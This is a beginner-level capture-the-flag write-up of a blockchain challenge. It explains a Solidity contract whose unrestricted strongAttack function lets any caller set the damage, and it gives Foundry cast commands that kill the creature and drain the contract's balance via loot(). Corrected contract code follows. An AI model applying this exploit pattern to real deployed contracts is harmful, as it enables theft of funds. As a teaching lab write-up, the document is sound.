


<div class="ctf-hero ctf-pulse">
  <div class="ctf-title">🦍 HTB Blockchain — Survival of the Fittest 🦾</div>
  <div class="ctf-subtitle">A beginner-friendly smart contract writeup</div>
  <div class="ctf-badge-row">
    <span class="ctf-badge">Solidity 0.8.x</span>
    <span class="ctf-badge">Foundry cast</span>
    <span class="ctf-badge danger">Missing Access Control</span>
    <span class="ctf-badge success">Solved</span>
  </div>
</div>

> [!abstract] One-line summary
> The creature trusted the player to choose the damage amount. Instead of punching it 20 times, we read its current `lifePoints`, called `strongAttack(lifePoints)`, killed it instantly, then called `loot()` to drain the target contract balance.

---

# 0. The Baby-Level Mental Model

Forget Bitcoin for a second. In this challenge, the blockchain is basically a **public computer** where small programs called **smart contracts** are running.

This challenge is like a tiny game:

```text
Monster has HP.
Monster holds treasure.
You must empty the monster's treasure.
```

Normal game path:

```text
Punch monster many times -> Monster HP becomes 0 -> Take treasure
```

Exploit path:

```text
Read contract -> Find strongAttack(damage) -> Choose full damage -> Loot treasure
```

> [!danger] Core mistake
> The contract exposed a powerful external function and did not check who was allowed to use it.

---

# 1. Challenge Objects

You receive values like this from the challenge connection page:

```json
{
  "PrivateKey": "CHALLENGE_PRIVATE_KEY",
  "Address": "YOUR_PLAYER_ADDRESS",
  "TargetAddress": "CREATURE_CONTRACT_ADDRESS",
  "setupAddress": "SETUP_CONTRACT_ADDRESS"
}
```

| Item | Simple meaning | Secret? |
|---|---|---:|
| `Address` | Your public wallet/account address | No |
| `PrivateKey` | Secret key used to sign transactions | Yes |
| `TargetAddress` | Address of the vulnerable `Creature` contract | No |
| `setupAddress` | Address of the `Setup` contract | No |
| `RPC_URL` | Server endpoint used by `cast` to talk to the chain | Usually no |

> [!warning] Private key warning
> HTB challenge private keys are temporary. Real wallet private keys must never be pasted into notes, GitHub, screenshots, Discord, or writeups.

---

# 2. What `cast` Is Doing

`cast` is a Foundry command-line tool used to interact with smart contracts.

There are two main modes:

## `cast call` means read only

Use it when you want to ask the blockchain for information.

```bash
cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC_URL
```

This asks:

```text
What is the creature's current health?
```

It does **not** change blockchain state.

## `cast send` means write/change state

Use it when you want to perform an action that changes something.

```bash
cast send $TARGET "strongAttack(uint256)" 20 \
  --rpc-url $RPC_URL \
  --private-key $PRIVATE_KEY
```

This creates a real transaction. It must be signed using your private key.

> [!tip] Easy rule
> `cast call` = read.  
> `cast send` = write/change.

---

# 3. High-Level Architecture



The website is only a front-end. The real rules are inside the contracts.

---

# 4. The Setup Contract

`Setup.sol` is the challenge manager.

```solidity
contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

Important points:

1. It deploys the vulnerable `Creature` contract.
2. It gives the `Creature` contract some balance.
3. It checks whether the challenge is solved.

The win condition is:

```solidity
address(TARGET).balance == 0
```

Meaning:

```text
The Creature contract must have zero balance.
```

So the final goal is not just to kill the creature. The real goal is to **drain the creature's balance**.

---

# 5. The Creature Contract

The vulnerable contract is `Creature.sol`.

```solidity
contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external {
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```

The creature starts with:

```solidity
lifePoints = 20;
```

So the normal-looking way is to call `punch()` twenty times.

```solidity
function punch() external {
    _dealDamage(1);
}
```

Each punch only deals `1` damage.

---

# 6. The Vulnerable Function

The bug is here:

```solidity
function strongAttack(uint256 _damage) external {
    _dealDamage(_damage);
}
```

This function is dangerous because:

- it is `external`, so anyone can call it from outside the contract;
- it accepts `_damage` from the user;
- it does not check whether the caller is allowed;
- it does not limit the damage amount.

So the contract basically asks the attacker:

```text
How much damage do you want to deal?
```

The attacker replies:

```text
Exactly enough to kill you.
```

> [!bug] Vulnerability
> **Missing Access Control** on `strongAttack(uint256)`.

---

# 7. What `_dealDamage()` Does

```solidity
function _dealDamage(uint256 _damage) internal {
    aggro = msg.sender;
    lifePoints -= _damage;
}
```

Line by line:

```solidity
aggro = msg.sender;
```

This stores the address of whoever attacked last.

```solidity
lifePoints -= _damage;
```

This subtracts the selected damage from the creature's health.

Example:

```text
lifePoints = 20
_damage    = 20
result     = 0
```

Creature is dead.

---

# 8. Exploit Flow

<div class="ctf-steps">
  <div class="ctf-step"><span>1</span><strong>Read HP</strong><small>call lifePoints()</small></div>
  <div class="ctf-step"><span>2</span><strong>Attack</strong><small>send strongAttack(HP)</small></div>
  <div class="ctf-step"><span>3</span><strong>Loot</strong><small>send loot()</small></div>
  <div class="ctf-step"><span>4</span><strong>Verify</strong><small>call isSolved()</small></div>
</div>



---

# 9. Final Exploit Commands

Set variables:

```bash
export PRIVATE_KEY="YOUR_PRIVATE_KEY"
export PLAYER="YOUR_PLAYER_ADDRESS"
export TARGET="TARGET_CREATURE_ADDRESS"
export SETUP="SETUP_CONTRACT_ADDRESS"
export RPC_URL="YOUR_RPC_URL"
```

Read the creature's current health:

```bash
DMG=$(cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC_URL)
echo "Creature lifePoints = $DMG"
```

Use the exact health as damage:

```bash
cast send $TARGET "strongAttack(uint256)" $DMG \
  --rpc-url $RPC_URL \
  --private-key $PRIVATE_KEY
```

Confirm health is now zero:

```bash
cast call $TARGET "lifePoints()(uint256)" --rpc-url $RPC_URL
```

Loot the target contract:

```bash
cast send $TARGET "loot()" \
  --rpc-url $RPC_URL \
  --private-key $PRIVATE_KEY
```

Verify solve:

```bash
cast call $SETUP "isSolved()(bool)" --rpc-url $RPC_URL
```

Expected result:

```text
true
```

---

# 10. Why Exact Damage Matters

You may think:

```text
Why not call strongAttack(999999)?
```

Because the contract uses Solidity `^0.8.13`.

In Solidity 0.8+, integer underflow and overflow are checked automatically.

`lifePoints` is a `uint256`, which means it cannot be negative.

If current health is `20` and you call:

```text
strongAttack(999999)
```

then the contract tries:

```text
20 - 999999
```

That would be negative, so Solidity reverts the transaction.

Safe method:

```text
Read current health.
Use exactly that number as damage.
```

---

# 11. Why `loot()` Is Required

Killing the creature only makes:

```text
lifePoints = 0
```

But the setup contract checks:

```solidity
address(TARGET).balance == 0
```

So after killing the creature, we still need to drain its balance.

That happens here:

```solidity
function loot() external {
    require(lifePoints == 0, "Creature is still alive!");
    payable(msg.sender).transfer(address(this).balance);
}
```

This function says:

```text
If the creature is dead, send all contract balance to the caller.
```

After `loot()`, the target balance becomes zero, so `isSolved()` returns true.

---

# 12. The Website Part

The website is not the real challenge logic. It is only a front-end.

The real check is on-chain:

```bash
cast call $SETUP "isSolved()(bool)" --rpc-url $RPC_URL
```

Once this returns:

```text
true
```

then the website can reveal the flag.

Typical flow:

```text
1. Solve contract on-chain.
2. Open challenge website.
3. Click Attack / Get Flag.
4. Website checks isSolved().
5. Website displays HTB{...}.
```

---

# 13. Vulnerability Classification

Best names for the bug:

| Name | Why it fits |
|---|---|
| Missing Access Control | No permission check on `strongAttack()` |
| Unrestricted External Function | Anyone can call it from outside |
| Business Logic Flaw | The game allowed the player to choose arbitrary damage |
| Improper Authorization | Powerful action was not protected |

Most accurate label:

```text
Missing Access Control on strongAttack(uint256)
```

---

# 14. How The Contract Should Be Fixed

Bad version:

```solidity
function strongAttack(uint256 _damage) external {
    _dealDamage(_damage);
}
```

Better version with owner check:

```solidity
address public owner;

modifier onlyOwner() {
    require(msg.sender == owner, "Not owner");
    _;
}

function strongAttack(uint256 _damage) external onlyOwner {
    _dealDamage(_damage);
}
```

Better version with damage limit:

```solidity
function strongAttack(uint256 _damage) external {
    require(_damage <= 5, "Damage too high");
    _dealDamage(_damage);
}
```

Better version with explicit underflow protection:

```solidity
function _dealDamage(uint256 _damage) internal {
    require(_damage <= lifePoints, "Too much damage");
    aggro = msg.sender;
    lifePoints -= _damage;
}
```

---

# 15. Final Cheat Sheet

```text
Goal:
  Make Creature contract balance equal 0.

Bug:
  strongAttack(uint256 _damage) is external and unrestricted.

Why punch was unnecessary:
  punch() deals only 1 damage.
  strongAttack() lets the caller choose damage.

Exploit:
  Read current lifePoints.
  Call strongAttack(lifePoints).
  Call loot().
  Confirm isSolved() == true.

Main lesson:
  Anyone can call public/external smart contract functions directly.
```

---

# 16. Memory Hook

<div class="ctf-card ctf-pulse">
  <div class="ctf-card-title">The creature made one fatal mistake</div>
  <pre>How hard do you want to hit?</pre>
  <pre>Exactly enough to kill you.</pre>
</div>

---

# Appendix A — Beginner Definitions

## Blockchain

A blockchain is a shared database/computer system where actions are recorded as transactions. In this challenge, you can think of it as the place where the contracts are running. Instead of changing a normal server database, your commands change contract state on the challenge chain.

## Smart Contract

A smart contract is code deployed to the blockchain. It stores variables and exposes functions. In this challenge, `Creature.sol` is the target smart contract and `Setup.sol` is the manager contract that checks whether you solved the challenge.

## Wallet Address

A wallet address is your public identity on the chain. It starts with `0x`. It is safe to show in normal situations because it is like a username or account number, not a password.

## Private Key

A private key proves ownership of a wallet address. When you send a transaction, your private key signs it. In real life, leaking a private key means losing control of that wallet. In HTB, the key is temporary for the challenge instance.

## RPC URL

The RPC URL is the endpoint your tools use to talk to the blockchain. Your terminal does not directly modify the chain. It sends requests to the RPC server, and that server communicates with the blockchain node.

## Transaction

A transaction is a state-changing action. Calling `strongAttack()` or `loot()` is a transaction because it changes `lifePoints` or transfers balance. Transactions require a private key signature.

## Call

A call is a read-only action. Calling `lifePoints()` or `isSolved()` only reads information. It does not change state and does not require signing with the private key.

## `msg.sender`

`msg.sender` is the address that called the current function. When you called `loot()`, `msg.sender` was your player address, so the contract transferred the balance to you.

## `require`

`require` is a condition that must be true. If it is false, the transaction reverts. In this challenge, `loot()` had `require(lifePoints == 0)`, so looting was only possible after the creature was dead.

## Revert

A revert means the transaction failed and all changes from that transaction were cancelled. When `loot()` said `Creature is still alive!`, it reverted because `lifePoints` was not zero yet.

## Contract Balance

A contract balance is the amount of native chain currency held by the contract address. `Setup.isSolved()` checked whether the `Creature` contract balance was zero.

## Access Control

Access control means checking who is allowed to call a function. For example, an admin-only function should have a check like `require(msg.sender == owner)`. This challenge had missing access control because `strongAttack()` was powerful but callable by anyone.

---

# Appendix B — How To Think In Future Blockchain CTFs

When you get a blockchain challenge, do not trust the website first. The website may hide buttons, limit input, or make the challenge look like a game. The contract is the real source of truth.

A good method is:

```text
1. Read Setup.sol.
2. Find isSolved().
3. Identify the real win condition.
4. Read the target contract.
5. List all public/external functions.
6. Ask: which function changes the variable needed for the win condition?
7. Check whether that function has access control.
8. Use cast call to inspect state.
9. Use cast send to exploit state-changing functions.
10. Confirm isSolved() returns true.
```

For this challenge:

```text
isSolved() checks target balance.
loot() drains target balance.
loot() requires lifePoints == 0.
strongAttack() can set lifePoints to 0.
strongAttack() has no access control.
Therefore: strongAttack(lifePoints), then loot().
```

---

# Appendix C — Tiny Glossary Table

| Term | Meaning in this challenge |
|---|---|
| `Setup.sol` | Challenge manager contract |
| `Creature.sol` | Vulnerable target contract |
| `TARGET` | Address of the `Creature` contract |
| `lifePoints` | Creature health |
| `punch()` | Deals 1 damage |
| `strongAttack(x)` | Deals user-chosen damage |
| `loot()` | Transfers the creature balance after death |
| `isSolved()` | Returns true when target balance is zero |
| `cast call` | Read contract state |
| `cast send` | Send transaction to change state |
| `external` | Callable from outside the contract |
| `public` | Readable/callable from outside depending on item |
| `internal` | Callable only inside the contract/inherited contracts |
| `uint256` | Unsigned integer; cannot be negative |
| `revert` | Failed transaction; changes are cancelled |

---

# Final Takeaway

> [!success] Remember this
> The creature did not lose because of cryptography. It lost because it trusted the attacker to choose the damage amount.

```text
Read health -> strongAttack(health) -> loot -> isSolved() == true
```
